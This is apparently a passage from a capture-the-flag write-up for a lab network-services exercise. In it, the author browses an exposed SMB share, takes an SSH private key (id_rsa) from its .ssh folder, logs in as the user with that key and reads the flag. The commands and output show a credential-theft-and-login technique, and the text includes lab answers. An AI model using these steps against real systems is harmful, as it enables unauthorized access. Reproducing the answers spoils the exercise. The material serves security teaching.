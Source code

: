 `John Cactus`

5. What service has been configured to allow him to work from home?

`ssh`

6. Okay! Now we know this, what directory on the share should we look in?

```
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 13:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 13:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available
smb: \.ssh\>
```

`.ssh`

7. This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

`id_rsa`

8. Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
```

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ ssh -i id_rsa cactus@10.10.78.132
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 21 22:57:37 UTC 2020

  System load:  0.0                Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.78.132
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt
THM{V0N318*****smb_is_fun_eh?}
cactus@polosmb:~$
```